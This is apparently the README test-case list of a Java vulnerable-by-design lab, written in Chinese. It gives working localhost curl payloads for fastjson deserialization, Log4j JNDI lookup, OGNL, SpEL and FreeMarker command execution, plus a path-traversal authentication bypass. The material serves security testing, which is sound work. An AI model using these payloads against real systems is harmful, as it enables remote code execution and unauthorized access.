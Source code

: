 ### 测试用例

1. 测试/actuator接口
2. 测试fastjson漏洞
   ```   
   curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"org.apache.commons.proxy.provider.remoting.RmiProvider","host":"127.0.0.1",port:"1099","name":"Exploit"}'
   curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true}'
   ```
3. 测试 alwaysUseFullPath 认证绕过漏洞，来自 http://rui0.cn/archives/1643
   * 直接访问 /admin/auth 会提示认证失败
   * 使用 /admin/no-auth/%2e%2e/auth 可以绕过认证
4. 测试ognl执行
   ```
   curl 127.0.0.1:8080/ognl/parse -d 'ognl=#a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{"open", "/System/Applications/Calculator.app/"})).start()'
   ```
5. 测试spel执行
   ```
   curl 127.0.0.1:8080/spel/parse -d "spel=T(java.lang.Runtime).getRuntime().exec('open /System/Applications/Calculator.app')"
   ```
6. 测试log4j漏洞
   ```
   curl 127.0.0.1:8080/log4j -d 'log=${jndi:ldap://127.0.0.1:1099/a}'
   ```
7. 测试freemarker漏洞
   ```
   curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("open /System/Applications/Calculator.app")</@value>'
   curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.Execute"?new()>$${value("open /System/Applications/Calculator.app")}'
   ```
